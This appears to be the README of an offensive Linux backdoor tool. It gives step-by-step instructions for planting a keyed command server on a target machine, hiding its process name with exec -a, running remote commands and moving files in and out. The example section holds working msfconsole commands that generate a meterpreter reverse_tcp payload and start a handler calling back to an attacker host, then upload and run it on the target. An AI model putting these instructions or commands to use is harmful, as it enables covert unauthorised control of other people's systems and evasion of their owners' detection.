





There is a known issue uploading or downloading file that are exact multiples of 1024 bytes (1024, 2048..etc) Hash ALL files uploaded and downloaded to be sure they match. See the 'Known Issues' section below for details.
Installation
1. Make a copy of /dragonfire/bin/nix_backdoor/server.py. Open the script and edit the listening port and the key. Be sure to annotate the key and port. This is the port the
server will ALWAYS be listening on, and the key is required to connect.

2. Move the modified script to the target, choosing a name and location that makes sense.
3. Run the script on the target. Where possible, use some obfuscation when running the script. For example, running the backdoor as exec -a "some_nice_name" python < script.py &
will run the script and only show "some_nice_name" in the process list. Try it.


4. Test your connection by connecting to the backdoor using the client.
There is no persistence natively included. If you want persistence you'll need to set up something to restart the script at boot/user logon, etc.
Usage
Connecet to the by running/dragonfire/bin/client.py -a 'ip_address' -p 'port' -k 'key'
Once connected to the server, any command you type will run as if it were a normal *nix command on the target.
There is a 15 second timout on all commands run to ensure the backdoor doesn't break on a hung command (such as a ping with no count). If your command takes longer than 15 seconds to complete you will be returned to the prompt.
Hung commands are often still running after you are returned to the prompt. Run a process list and kill any stray running processes you created.
Special Commands are typed in all caps
UP 'file_to_upload' 'filename on tgt': uploads a file
DOWN 'file_to_download' 'filename': downloads a file
LDIR: List current local working directory
LCD 'dir': Change current local directory
KILL: Shuts down the server. If you are doing this to uninstall (likely) be sure to remove any persistence as well.
EXIT: Exits the backdoor. CTRL+C will also exit.
Example Use
Example of connecting, running some commands, and moving meterpreter to the target. Conneceting to server at 192.168.142.131:1337 with a key of testkey

Prepare a meterpreter callback
msfconsole -x "use payload/linux/x86/meterpreter/reverse_tcp;set lhost 192.168.142.134;set lport 4444;generate -t elf -f test_meterpreter;exit"
Start the meterpreter handler
msfconsole -x "use exploit/multi/handler;set payload linux/x86/meterpreter/reverse_tcp;set lhost 192.168.142.134;set lport 4444;run"
Upload meterpreter. Check hashes after upload.

Chmod +x the uploaded file and run it. Control will return to you in 15 seconds.

You should now have a meterpreter session. Remove the uploaded meterpreter. Profit.
For some reason meterpreter sesisons hang (on *nix at least) when you 'exit.' Use kill -9 'PID' from a shell to exit meterpreter. You can also check a process list from the backdoor after disconnecting.
Known Issues
Sometime things just get stuck. CTRL+C will exit and you can reconnect.
There is a 5 minute timeout on network comms. If you exceed that CTRL+C and reconnect.
Uploads and Downloads of exact multiples of 1024 bytes don't work as expected.
Uploads will hang indefinitely...wait a minute, CTRL+C the session, then reconnect and check the hash.
Downloads will also hang, but after CTRL+C out, the local file size will be too large. (data is inadvertantly appended to the end of the file.)
Use dd bs=1 if='downloaded_file' of='new_file' count='correct_file_size'
This will trim the data from the end. As always, hash the file to verify